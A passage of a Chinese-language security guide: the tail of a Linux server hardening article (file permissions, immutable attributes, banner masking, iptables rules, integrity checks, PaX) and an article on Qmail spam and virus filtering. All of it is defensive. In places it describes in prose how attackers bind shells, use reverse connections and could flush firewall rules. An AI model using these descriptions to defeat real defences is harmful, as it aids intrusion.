[root@ayazero /]# find / -type f \( -perm -04000 -o -perm -02000 \) -exec ls -lg {} \;
[root@ayazero /]# chmod a-s filename
```

把重要文件加上不可改变属性：

```bash
[root@ayazero /]# chattr +i /etc/passwd
[root@ayazero /]# chattr +i /etc/shadow
[root@ayazero /]# chattr +i /etc/gshadow
[root@ayazero /]# chattr +i /etc/group
[root@ayazero /]# chattr +i /etc/inetd.conf
[root@ayazero /]# chattr +i /etc/httpd.conf
```

具体视需要而定，有些 exploit 溢出后会向 inetd.conf 写一条语句绑定 shell 在一个端口监听，此时这条命令就起了作用，浅薄的入侵者会以为溢出不成功。

找出系统中没有属主的文件：

```bash
[root@ayazero /]# find / -nouser -o -nogroup
```

找出任何人都有写权限的文件和目录：

```bash
[root@ayazero /]# find / -type f \( -perm -2 -o -perm -20 \) -exec ls -lg {} \;
[root@ayazero /]# find / -type d \( -perm -2 -o -perm -20 \) -exec ls -ldg {} \;
```

防止入侵者向其中写入木马语句（诸如一个 shell 的拷贝）或继承属主权限而非法访问；找出并加固那些历来被入侵者利用的文件，比如 `.rhosts`。

ftp 的上传目录不能给予执行权限。如提供可运行 CGI 的虚拟主机服务，应该做额外安全配置。编辑 `/etc/security/limits.conf`，加入或改变如下行：

```bash
* hard core 0
* hard rss 5000
* hard nproc 20
```

### 5. Banner 伪装

入侵者通常通过操作系统、服务及应用程序版本来攻击，漏洞列表和攻击程序也是按此来分类，所以我们有必要作点手脚来加大入侵的难度。

更改 `/etc/issue`，因为 reboot 后重新加载，所以编辑 `/etc/rc.d/rc.local` 如下：

```bash
# This will overwrite /etc/issue at every boot. So, make any changes you
# want to make to /etc/issue here or you will lose them when you reboot.
#echo "" > /etc/issue
#echo "$R" >> /etc/issue
#echo "Kernel $(uname -r) on $a $(uname -m)" >> /etc/issue
#
#cp -f /etc/issue /etc/issue.net
#echo >> /etc/issue
把以上行前的“#”去掉
```

对于 Apache 的配置文件，找到 ServerTokens 和 ServerSignature 两个 directive，修改其默认属性如下，使其不回显版本号：

```bash
#ServerTokens Full
ServerTokens Prod
#ServerSignature On
ServerSignature Off
```

同时修改 uname 文件，搜索 uname.c 的源码，找到如下行：

```bash
print_element (PRINT_SYSNAME, name.sysname); /* 操作系统名如 linux */
print_element (PRINT_NODENAME, name.nodename);// 主机名
print_element (PRINT_RELEASE, name.release);// 发行版本，如：2.4.20-18
print_element (PRINT_VERSION, name.version);//
print_element (PRINT_MACHINE, name.machine);// 机器类型，如i686
print_element (PRINT_PROCESSOR, processor);// 处理器类型
```

将其修改为：

```bash
print_element (PRINT_SYSNAME, "HP-UX");
......
编译后替换 /bin/uname。
```

其他服务及程序的修改可以查看其配置文件或者源码，不要改太多，否则会给系统管理带来大麻烦。

### 6. iptables 防火墙规则

假设我们的服务器 server1 运行 Apache 和 sshd（sshd 可以不运行在标准端口，配置文件中能修改）。eth0 网卡接 Internet，eth1 连接 LAN，管理员在家中拨号登录到 server2（其私用网络 IP 为 192.168.0.12），再登录 server1，其命令如下：

```bash
[root@ayazero root]# iptables -A INPUT -i eth1 -s 192.168.0.12 -p tcp --dport 22 -j ACCEPT
```

为了防止 IP spoofing 的可能，还可以绑定 server2 的网卡地址：

```bash
sh-2.05b# iptables -A INPUT -i eth1 -s 192.168.0.12 --mac-source 01:68:4B:91:CC:B7 -p tcp --dport 22 -j ACCEPT
```

不过好像也很少有入侵者能够做到这种地步，而且没什么利用的价值。

```bash
[root@ayazero root]# iptables -A INPUT -i eth0 -p tcp --dport 80 -j ACCEPT
[root@ayazero root]# iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT
[root@ayazero root]# iptables -A INPUT -j DROP
```

对攻击有所了解的人都知道“端口重定向+反向管道”的美妙结合来穿越防火墙的例子吧？这种技巧已经运用太广，而危害很大。为了对抗这种难以防御的攻击，我们必须以牺牲一定的易用性为代价：

```bash
[root@ayazero root]# iptables -A OUTPUT -o eth0 -p tcp --syn -j DROP
```

以上规则将阻止由内而外的 TCP 主动连接。另外，用 tftp 或其他客户端反向攫取文件的攻击行为也很普遍。由于 tftp 以及诸如 loki 之类的工具依赖 UDP，所以现在要把它彻底抹煞掉：

```bash
[root@ayazero root]# iptables -A OUTPUT -o eth0 -p udp -j DROP
```

**注：** 在更新系统和调试网络时需要把这两条规则临时去掉。

因为入侵的本质就是通过文本或图形界面在标准或非标准端口得到目标操作系统的 shell，所以这不仅能阻止反向管道本身，还能免疫很多入侵技巧，不过对一般的系统管理员而言，这太苛刻了！下面是 iptables 的一些攻击对策。

```bash
1) Syn-flood protection:
[root@ayazero foo]# iptables -A FORWARD -p tcp --syn -m limit --limit 1/s -j ACCEPT

2) Furtive port scanner:
[root@ayazero foo]# iptables -A FORWARD -p tcp --tcp-flags SYN,ACK,FIN,RST RST -m limit --limit 1/s -j ACCEPT

3) Ping of death:
[root@ayazero foo]# iptables -A FORWARD -p icmp --icmp-type echo-request -m limit --limit 1/s -j ACCEPT
```

此外，iptables 还能配置出让一些扫描行为（比如 nmap）失效的规则。应当注意，防火墙不是万能的，当一个攻击者足够疯狂时，不要指望你的防火墙能抵挡得住 DDoS。

### 7. 完整性校验

tripwire 是一个比较有名的工具，它能帮你判断出一些重要系统文件是否被修改过。现在的 Linux 发行版中一般都带有该工具的开源版本，在默认的校验对象配置文件中加入一些敏感文件就可以使用。

```bash
[root@ayazero rpm]# rpm -V
```

用 `man rpm` 查看命令帮助，`-V` 参数用于 MD5 校验。注意要把 rpm 校验产生的二进制数据文件作一个硬备份，以防止其本身被修改。

### 8. 自行扫描

普通的安全加固基本上是做完了，现在让我们来对自己做的系统做一个风险评估，推荐使用 Nessus latest version。

也许你觉得自己的系统没有问题了，但有时 Nessus 还是能报告出一些问题，比如一个第三方的 Webmail 有某些安全缺陷；如果没有问题最好，有问题我们再回去修补。

### 9. 高级技巧

以上的措施已经足以让大多数入侵者望而却步，接下来的部分给那些对安全极度敏感的偏执狂。缓冲区溢出对策中有 stackguard、stackshield、formatguard、heapguard 和 pointguard 等编译技术，但它们需要重新编译源码，不仅麻烦而且会使系统性能有所下降，所以这里打算用防止缓冲区溢出的内核补丁。

比较熟知的是 PaX 内核补丁，它主要通过数据区 heap/bss/stack 不可执行代码来防御直接覆盖返回地址后跳转到数据区执行 shellcode 的一些 exploit。PaX 的站点最近访问不了，但用 Google 可以找到很多对应较新内核的 PaX 下载。这些补丁并不能防御所有的溢出攻击，但却可以挡住市面上相当数量的 exploit。

### 10. 日志策略

主要就是创建对入侵相关的重要日志的硬拷贝，不致于应急响应的时候连最后的黑匣子都没有。可以把它们重定向到打印机、管理员邮件、独立的日志服务器及其热备份。

### 11. Snort 入侵检测系统

对入侵响应和安全日志要求较高的系统有此必要；对于一般的系统而言，如果管理员根本不会去看一大堆日志，那么它白白占用系统资源，就如同鸡肋一样。

### 小结

对攻击的思考：假设有一个技术高超的入侵者，拥有自行挖掘系统底层漏洞的能力，他发现了 Apache 的一个漏洞，并编写了 remote exploit，这个漏洞暂时还没出现在 bugtraq 上，处于“未知”状态。如果入侵者试图攻击我们的系统，他必须能挖掘一个 Apache 并且是 root 级的远程溢出，并进行下列的工作：

- 在 shellcode 中植入代码杀死 httpd 进程，并且把 sn 绑定在 80 端口。
- 在 80 端口复用。
- 让 shellcode 执行 `iptables -F OUTPUT/INPUT`，前提是他猜到有这么回事。

以上均需要溢出后是 root 权限，并且是能够绕过 PaX 的高难度 exploit；另外，Apache 杀掉后会自动重启。如果想攻击 sshd，因为 iptables 将丢弃所有来自外网访问 sshd 的包，所以即使有远程溢出（当然别忘了 PaX），此路不通。

再看看其他的方法，如果脚本攻击可以获得允许远程登录 ssh 用户的明文口令，或是利用脚本缺陷直接添加系统账号，这不仅需要系统 root 权限，而且 `/etc/passwd` 已经被 chattr 过，满足以上条件，并且攻破 server2，就有希望得到 shell。但提升权限的机会不大！普通脚本攻击在此无效，当然，如果该系统并不运行 CGI 的话，此路更是不通。

诚然，入侵者很可能在 http 上破坏你的脚本，第三方的 Web 安全加固不在本文讨论之列。以上条件对大多数入侵者足够苛刻，可以说几乎不可能实现。但是我们为此也牺牲了不少，并且这些措施依赖一定的环境而实现安全性和易用性，需要读者站在自己的角度寻找它们的平衡点。


## 病毒邮件监控

文／梁天星

Qmail 是新一代免费邮件系统，它也是一个基于 UNIX 操作系统的 Internet 邮件传输代理（Internet Mail Transfer Agent，简称 MTA）。由于邮件作者是以安全为开发目的，因此它受到很多大型 ISP 的青睐。世界最大的 Freemail 提供者 Hotmail.com 的 MTA 就用 Qmail；新浪网的免费邮件 freemail.sina.com.cn 建立在 Qmail 基础上；而当前在国内最流行的 163、371 等免费邮件系统就是采用 Qmail 作为基本服务器进行开发。

我们在使用电子邮件过程中难免会碰到垃圾邮件、病毒，如果在邮件系统中做好安全防护工作，就能让用户减少很多不必要的麻烦。下面我们以 Qmail 为例，介绍如何实现反垃圾邮件，以及如何实现对病毒的监控。

SpamAssassin 使用垃圾规则扫描电子邮件并打分。分数高，则邮件将被标识为垃圾，安装步骤如下：

```bash
tar xzf Mail-SpamAssassin-2.53.tar.gz
cd Mail-SpamAssassin-2.53
perl Makefile.PL
make
make install
```

安装文件如下：

- `/usr/bin/spamassassin`  # 标准的 SpamAssassin 程序
- `/usr/bin/spamc`         # SpamAssassin 进程客户端
- `/usr/bin/spamd`         # SpamAssassin 进程服务端
- `/usr/share/spamassassin/`  # spamassassin 过滤文件存放于此
- `/etc/mail/spamassassin/local.cf`  # 扫描配置文件

### 一、垃圾邮件特征库

RAZOR 第二版定义的垃圾规则非常精确，并且它只消耗很少的 CPU 负载。SpamAssassin 能自动装载其定义的垃圾规则。由于 Redhat 7.2 的 Perl 版本为 5.6.0，其 Harness 版本低于 1.23，不能支持 razor-agent-sdk 顺利编译，因此需要安装 Perl 5.6.1 版本，如果系统已包含 Perl 5.6.1 版本或更高版本，请跳过这步。

程序安装于 `/usr/bin`。SpamAssassin 使用程序 `razor-check` 进行邮件垃圾监测。最后，用命令创建 razor 的配置文件：`razor-admin -d -create -home=/etc/razor`。

### 二、垃圾扫描控件实现

SpamAssassin 使用垃圾规则扫描电子邮件并指派分数。

测试安装是否成功：

```bash
spamassassin -t < sample-nonspam.txt
spamassassin -t < sample-spam.txt
```

为增加安全，为 spamd 进程添加运行账户：

```bash
groupadd spamd
useradd -g spamd spamd
```

修改 spamd 配置文件：

```bash
vi /etc/sysconfig/spamd
# Hint: if you want to enable SpamAssassin debugging
# (the debug output goes to /var/log/maillog) then use:
# OPTIONS="-x -u spamd -H /home/spamd -d -D"
#
# Otherwise, for normal operation (debugging disabled) use:
OPTIONS="-x -u spamd -H /home/spamd -d"
```

配置 spamd 进程，在系统引导启动守护进程：

```bash
cp spamd/redhat-rc-script.sh /etc/rc.d/init.d/spamd
chmod 700 /etc/rc.d/init.d/spamd
chkconfig --add spamd
```

建立 SpamAssassin 配置文件：

```text
SpamAssassin.txt
```

注：关于 SpamAssassin 的配置语法可以使用如下命令查询：

```bash
perldoc Mail::SpamAssassin::Conf
```

SpamAssassin 反垃圾软件安装完毕。任何被 SpamAssassin 定义为垃圾的邮件将会在主题行加入 `[SPAM]` 关键字，用户也可在邮件客户端软件中自定义垃圾规则。

### 三、Qmail-scanner 病毒扫描控制实现

Qmail-Scanner 使 Qmail 能扫描邮件中特征。它主要用于防病毒保护，可以连接商业的病毒扫描引擎。它能阻挡一些特定的头或者特殊的附件类型，诸如 VBS 类型。

安装支持 Qmail Scanner 的必要模块：TNEF 解包程序，用于解包微软类型的附件，下载地址：http://sourceforge.net/projects/tnef/，进行如下操作：

```bash
tar xzf tnef-1.2.0.tar.gz
cd tnef-1.2.0
./configure
make
make install
```

ReformatMIME（Maildrop 软件包），添加邮件过滤功能，此软件使用结构化过滤语言，请到 http://download.sourceforge.net/courier/ 进行下载，然后：

```bash
bunzip2 maildrop-1.5.2.tar.bz2
tar xf maildrop-1.5.2.tar
cd maildrop-1.5.2
./configure
make
make install-strip
make install-man
```

Qmail-scanner 支持病毒扫描引擎可以查阅相应网站，安装 Qmail-scanner 脚本：

```bash
tar xzf qmail-scanner-1.16.tgz
cd qmail-scanner-1.16
./configure \
  --admin virusadmin \
  --domain yourdomain.com \
  --scanners clamscan,verbose,spamassassin \
  --debug no \
  --install
```

注：编译安装时候，指定管理者和管理域，scanners 扫描引擎选择 clamscan，垃圾规则信息显示，不进行调试信息显示。

重新编辑 qmail-smtpd 运行脚本，加入病毒扫描机制和反垃圾机制：

```bash
vi /var/qmail/supervise/qmail-smtpd/run
#!/bin/sh
# when QMAILQUEUE is set, all mail will be sent to the nominated script
QMAILQUEUE="/var/qmail/bin/qmail-scanner-queue.pl"; export QMAILQUEUE

QMAILDUID=`id -u qmaild`
NOFILESGID=`id -g qmaild`

# softlimit needs to be set at 10000000 to allow virus scanner to run
exec /usr/local/bin/softlimit -m 10000000 \
/usr/local/bin/tcpserver -v -x /etc/tcp.smtp.cdb -c 30 -R \
-u "$QMAILDUID" -g "$NOFILESGID" 0 smtp \
...
```

如果不需要对所有邮件进行扫描，可以在 `/etc/tcp.smtp` 中设置 qmailqueue 变量，具体步骤可参阅 Qmail-Scanner 主页。